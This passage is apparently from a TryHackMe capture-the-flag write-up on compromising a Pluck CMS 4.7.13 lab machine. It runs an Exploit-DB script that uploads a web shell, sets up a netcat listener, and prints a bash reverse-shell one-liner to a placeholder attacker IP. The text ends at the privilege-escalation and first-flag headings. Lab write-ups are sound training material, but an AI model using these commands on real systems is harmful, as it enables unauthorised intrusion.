 ![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/4452c653-1bd8-4296-b51f-98babeaddba8)

I'm feeling a little flustered at the moment. However, I've decided to revisit the basics of obtaining information about the web application. While doing so, I noticed the 'pluck-4.7.13'. It dawned on me that I hadn't searched for a vulnerability in the CMS version yet.

Then doing a quick pluck 4.7.13 version exploits returned me the solution to get a shell.

![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/eeb9b2f5-01ba-47df-a68d-fb5fbbeafb90)


So, we are logged in as admin and we are ready to exploit this vulnerability.

I have downloaded the exploit script onto my computer and saved it as `exploit.py` from exploit db. After reviewing the script, I understand the necessary parameters in order to make this work.

#### How this script works?

The following script requires the input of target IP, target port, password and the pluck CMS path. The script will authenticate us and generate an exploit with Powny shell and upload it to a file named “shell.phar”. Although it may seem simple, a lot is going on behind the scenes. I would recommend reviewing the code yourself at least once to fully understand the process.

executing the script.

```text-plain
python3 exploit.py <targetIp> 80 password /app/pluck-4.7.13
```

In the result, we can see a link. If we copy and paste it, we are redirected to the page where our exploit ran and return a session of powny shell.

Now we can execute a rev payload  on the target machine to establish a reverse shell to our local machine by running a netcat listener.

Setup the nc listener:

```text-plain
nc -nvlp 9999
```

command for target machine:

```text-plain
bash -c 'exec bash -i &>/dev/tcp/<attacker_ip>/<port> <&1'
```

Now we can stabilize the shell by different methods and ensure a stable connection and environment.

Privilege escalation
--------------------

In this part, we will try to elevate our users by horizontal and vertical privilege escalation methods.


Flag 1
------

To gain a better understanding, our first step is to thoroughly examine every directory and file for any useful information.
